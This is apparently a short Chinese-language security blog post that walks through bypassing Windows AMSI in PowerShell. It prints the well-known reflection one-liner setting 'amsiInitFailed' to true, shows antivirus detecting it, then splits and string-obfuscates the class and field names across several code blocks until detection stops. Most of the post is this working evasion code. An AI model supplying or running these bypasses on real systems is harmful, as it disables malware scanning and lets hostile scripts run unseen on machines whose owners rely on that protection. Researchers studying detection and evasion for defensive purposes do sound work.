 下面这个是 16 年老外发布的关闭 amsi 的命令。这段代码的主要功能是通过反射访问 `AmsiUtils` 类中的 `amsiInitFailed` 字段，将其值设置为 `$true`，从而绕过 AMSI 扫描。

```plain
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

直接就报毒：

[![](assets/1709530518-22480e3a25cabb763bb60c5bb06d5947.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240303101940-7da72b14-d904-1.png)

然后我们进行分割，不一句话执行：

```plain
$a = [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')
$b = $a.GetField('amsiInitFailed','NonPublic,Static')
$b.SetValue($null,$true)
```

可以看到前两条命令仍然被杀，这两条命令是反射访问类中字段的，所以我们要想办法进一步绕过

[![](assets/1709530518-d92704f4cb28a5cd87260206f796d669.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240303101954-85cf00be-d904-1.png)

我们把类名和字段名进行拆分，然后通过参数的形式赋给我们的命令，可以看到现在已经不查杀了

```plain
$a = 'System.Management.Automation.A';$b = 'ms';$c = 'Utils'
$d = [Ref].Assembly.GetType(('{0}{1}i{2}' -f $a,$b,$c))
$e = $d.GetField(('a{0}iInitFailed' -f $b),'NonPublic,Static')
$e.SetValue($null,$true)
```
